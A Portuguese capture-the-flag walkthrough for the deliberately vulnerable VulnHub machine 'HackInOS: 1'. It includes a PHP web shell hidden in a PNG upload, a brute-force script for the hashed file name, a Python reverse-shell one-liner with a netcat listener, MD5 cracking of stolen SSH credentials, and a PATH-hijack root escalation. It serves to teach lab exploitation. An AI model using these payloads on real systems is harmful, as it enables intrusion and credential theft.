




# HackInOS: 1 

Location: [vulnhub.com](vulnhub.com)
Dificuldade: Intermediária

## Identificação e Enumeração

O primeiro passo foi identificar o endereço da VM:
```
# netdiscover -r 192.168.11.6/24 
```


Tendo o IP, podemos fazer um port-scan para identificar os serviços que estão sendo executados:
```
# nmap -sV -sC -sT -p- 192.168.11.9  
```
  
Existe um SSH na porta 22 e um HTTP na porta 8000, o nmap ainda mostra os arquivos que estão no listados no robots.txt, que são o upload.php e o uploads/  
No endereço http://192.168.11.9:8000 tem um blog feito em wordpress, mas sem muita informação, nenhum plugin, e poucas informações sobre o usuário Handsome_Container, que é o usuário do wordpress.  
Voltando para o arquivo upload.php, encontrado no robots.txt, vemos uma página para fazer uploads de imagens

## Exploração

  
No código fonte tem um comentário que leva a um repositório do github, nesse reposítorio tem o código-fonte do upload.php e também uma mensagem dizendo que códigos encontrados na internet sempre tem falhas. O código do arquivo de upload é:
```php
if(isset($_POST["submit"])) {
	$rand_number = rand(1,100);
	$target_dir = "uploads/";
	$target_file = $target_dir . md5(basename($_FILES["file"]["name"].$rand_number));
	$file_name = $target_dir . basename($_FILES["file"]["name"]);
	$uploadOk = 1;
	$imageFileType = strtolower(pathinfo($file_name,PATHINFO_EXTENSION));
	$type = $_FILES["file"]["type"];
	$check = getimagesize($_FILES["file"]["tmp_name"]);
	if($check["mime"] == "image/png" || $check["mime"] == "image/gif"){
		$uploadOk = 1;
	}else{
		$uploadOk = 0;
		echo ":)";
	} 
  if($uploadOk == 1){
      move_uploaded_file($_FILES["file"]["tmp_name"], $target_file.".".$imageFileType);
      echo "File uploaded /uploads/?";
  }
}
```
O fluxo desse código é:
* Escolhe um número entre 1 e 100  
* declara o diretório uploads   
* concatena o nome do arquivo com o número sorteado no passo 1 cria uma hash md5 com isso  
* contatena a hash encontrada anteriormente com a variável que guarda o diretório uploads
* Identifica a extensão  
* checa se mimetype do arquivo é de uma imagem .png ou .gif  
* se for, ele move esse arquivo para uploads, já renomeado com a hash e concatenado com a extensão priginal

Exemplo:
* É sorteado o número 15
* O arquivo é uma imagem .png chamada teste.png
* o algoritmo vai juntar o nome com o numero => teste.png15
* Vai transformar isso em um md5 => md5(teste.png15) => 841606b82faeece6fdf917c20a5c2a05
* Então para acessar esse arquivo depois do upload temos que acessar uploads/841606b82faeece6fdf917c20a5c2a05.png

### A vulnerabilidade
Esse algoritmo verifica se o arquivo mandado é realmente uma imagem pela seu estrutura, então mandar um arquivo .php e mudar a extensão não burla a verificação. Mas ele não verifica a extensão, então se mandarmos uma imagem real com a extensão .php ele vai fazer o upload. Com isso, podemos adicionar um pedaço de código php no fim de uma imagem real, renomeá-la e tentar fazer o upload.

```
$ wget https://upload.wikimedia.org/wikipedia/commons/8/8c/Brazil.png
$ echo "<?php system(\$_GET['cmd']); ?>" >> Brazil.png 
$ mv Brazil.png Brasil.php
```
  

O upload funcionou, mas não conseguimos encontrar o arquivo, pois não sabemos qual o nome que ele foi salvo, mas como sabemos como ele salva o nome, podemos fazer um bruteforce com o nome do arquivo e números de 1 a 100, que é o range que tem no upload.php
```python
from hashlib import md5
from sys import argv
import requests

targetDir = 'uploads/'
url = 'http://192.168.11.9:8000/'
filename = argv[1]

for i in range(1, 101):
    enc = md5()
    enc.update((filename + str(i)).encode())
    targetFile = targetDir + enc.hexdigest() +'.'+ filename.split('.')[1]
    r = requests.get(url + targetFile)
    if r.status_code != 404:
        print(targetFile, r)
    
    enc = ''
```
```
$ python script.py Brazil.php
uploads/5441e849bba52140cd3ef37f26a95ba6.php <Response [200]>
```

Acessando http://localhost:8000/uploads/5441e849bba52140cd3ef37f26a95ba6.php?cmd=ls vemos que conseguimos executar comandos do sistema, então podemos conseguir uma shell:
No parametro ?cmd, coloca:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

E no terminal colocar:
```
$ nc -vvnlp 1234
```

Com o shell, podemos tentar escalar privilégios, executando o LinEnum.sh vi que eu estava dentro de um container do docker e não dentro da vm real. Mas então, olhando o arquivo wp-config.php vejo que esse container está conectado com um outro que executa o mysql, o nome desse container é db. Como no wp-config tem as credenciais do banco de dados, fiz o login e vi que lá estavam as credenciais do ssh:  
  
```
$ mysql -h db -u wordpress -p
Enter password: wordpress
```

Dentro do mysql:
```
> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+

> use wordpress
> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| host_ssh_cred         |
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

> SELECT * FROM host_ssh_cred;
+-------------------+----------------------------------+
| id                | pw                               |
+-------------------+----------------------------------+
| hummingbirdscyber | e10adc3949ba59abbe56e057f20f883e |
+-------------------+----------------------------------+
```

A senha está em md5, jogando ela no john para tentar quebrar, tenho o seguinte resultado:
```
$ echo -n "e10adc3949ba59abbe56e057f20f883e" >> hashtest
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hashtest
(...)
123456           (?)
(...)
```

Com usuário e senha podemos fazer login via ssh e tentar escalar privilégios para root
```
$ ssh hummingbirdscyber@192.168.11.9
hummingbirdscyber@192.168.11.9's password: 123456
```

## PrivEsc

Olhando os arquivos da pasta pessoal vi que em Desktop havia um arquivo chamado a.out, ele é um SUID, ou seja, ele executa como root. O que o programa faz é setar usuário e grupo e fazer uma chamada do sistema
```
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004005b6 <+0>:	push   %rbp
   0x00000000004005b7 <+1>:	mov    %rsp,%rbp
   0x00000000004005ba <+4>:	mov    $0x0,%edi
   0x00000000004005bf <+9>:	mov    $0x0,%eax
   0x00000000004005c4 <+14>:	callq  0x400490 <setgid@plt>
   0x00000000004005c9 <+19>:	mov    $0x0,%edi
   0x00000000004005ce <+24>:	mov    $0x0,%eax
   0x00000000004005d3 <+29>:	callq  0x4004a0 <setuid@plt>
   0x00000000004005d8 <+34>:	mov    $0x400674,%edi
   0x00000000004005dd <+39>:	mov    $0x0,%eax
   0x00000000004005e2 <+44>:	callq  0x400470 <system@plt>
   0x00000000004005e7 <+49>:	mov    $0x0,%eax
   0x00000000004005ec <+54>:	pop    %rbp
   0x00000000004005ed <+55>:	retq   
```  

Se executarmos o ltrace podemos ver que binário ele chama na função system
```
$ ltrace ./a.out 
__libc_start_main(0x4005b6, 1, 0x7fffee314c38, 0x4005f0 <unfinished ...>
setgid(0)                                                                                               = -1
setuid(0)                                                                                               = -1
system("whoami"hummingbirdscyber
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                  = 0
+++ exited (status 0) +++

```
Como pode-se ver., seta o grupo e o user para 0, que são identificações para root, e em seguida chama o comando whoami, que diz qual usuário que estamos logados, como o programa executa como root, ele mostra a sáida como root
```
$ $ ./a.out 
root
```

Os comandos são encontrados com base na variável do sistema PATH, então se adicionarmos outro diretório à PATH com um programa chamado whoami, ele vai executá-lo ao invés de executar o verdadeiro, que está em /bin. Então basta criar um arquivo chamado whoami e adicionar o seguinte conteúdo
```
#!/bin/bash
bash -i
```
e mudar o valor da variável PATH:
```
$ export PATH=$PWD:$PATH
$ echo $PATH
```
E executar o a.out
```
$ ./a.out
#
```
E ele nos retorna um bash com o usuário root, basta ler a flag

```
# cat /root/flag
```